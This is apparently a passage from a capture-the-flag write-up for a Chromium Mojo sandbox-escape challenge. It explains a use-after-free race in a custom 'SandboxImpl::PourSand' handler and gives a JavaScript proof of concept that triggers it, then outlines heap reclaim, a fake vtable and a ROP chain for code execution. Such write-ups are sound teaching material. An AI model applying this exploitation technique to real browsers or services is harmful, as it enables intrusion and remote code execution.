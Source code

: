 ```cpp
        this->backup_ = std::make_unique<std::vector<uint8_t>>(sand.begin()+0x800, sand.end()); // [2]
        this->PourSand(sand_for_box); // [3]
    } else {
        for ( i = 0 ; i < sand_sz ; i++) {
            this->box_[i] = sand[i];
        }
    }
    this->isProcess_ = false;
}
```

The bug is quite obvious : at [1], the service post a task to the IO thread which will do `SandboxImpl::Pour()`. If we can delete the `SandImpl` object before the callback was called, you'll get a UAF during `SandboxImpl::Pour()`. At [2] you can do heap allocation with a controlled size, so if you control it correctly, you can reuse the memory that had just been deleted, making `this` ( now a dangling pointer ) and the data in `this->backup_` both using the same memory ( which its content is controllable ). After that, the service will call `SandboxImpl->PourSand()` again ( [3] ), and since it's a virtual function call, you'll be able to hijack the control flow. Here's the PoC:

```javascript
B = [];
for (i = 0; i < 0x100; i++) {
    B.push(null);
    B[i] = new blink.mojom.SandboxPtr();
    Mojo.bindInterface(blink.mojom.Sandbox.name, mojo.makeRequest(B[i]).handle);
}

let data = new ArrayBuffer(0x820 + 0x800);
let b64arr = new BigUint64Array(data);
let u8arr = new Uint8Array(data);

b64arr.fill(BigInt(0x4141414141414141));

// trigger vulnerability by racing PourSand() and delete
for (i = 0; i < 0x100; i++) {
    await B[i].pourSand(u8arr);
    await B[i].ptr.reset();
}
```

The reason why we set `ArrayBuffer`'s size into `0x820 + 0x800` is because `0x820` is the size of a `SandImpl` object ( you can confirm it by looking at the `content::SandboxImpl::Create()` function in gdb ). The first `0x800` bytes will be put into `this->box_`, and the rest of the `0x820` bytes will be allocated and put into `this->backup_`. If we can delete the `SandImpl` object before it allocate the data in `PourSand()`, we'll be able to control the dangling `SandImpl` object with our own data.

As for address leaking, there's `GetTextAddress` and `GetHeapAddress` to make your life easier. With these two functions we will be able to know the address of our ROP chain and the heap memory. Pick a heap buffer, put our ROP chain and a fake vtable on it, we should be able to hijack the control flow and achieve RCE when it calls `this->PourSand(sand_for_box);`. 
